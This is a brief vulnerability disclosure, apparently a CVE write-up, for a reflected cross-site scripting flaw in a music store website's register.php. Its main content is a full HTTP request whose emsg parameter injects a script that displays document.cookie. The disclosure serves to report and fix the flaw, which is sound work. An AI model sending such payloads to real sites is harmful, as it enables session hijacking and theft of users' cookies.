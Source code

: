 # vulnerability music store website

![](https://raw.githubusercontent.com/Th4r0s/my_CVE/main/web/vuln1/docs/vuln_website.png)

## description

The emsg GET parameter used for prompt error message in case of missing field in register form is vulnerable to reflected XSS.
Is possible to inject javascript code and prompt document cookie.

## vulnerability 

```
GET /mw/register.php?emsg=%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/2
Host: vulnhost.com
Cookie: PHPSESSID=tttbitb72h0efdddda4ft9q8e2f
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
```
## Description01:

JavaScript can be injected into the application (a vulnerable app - register.php, no sanitizing emsg GET parameter).


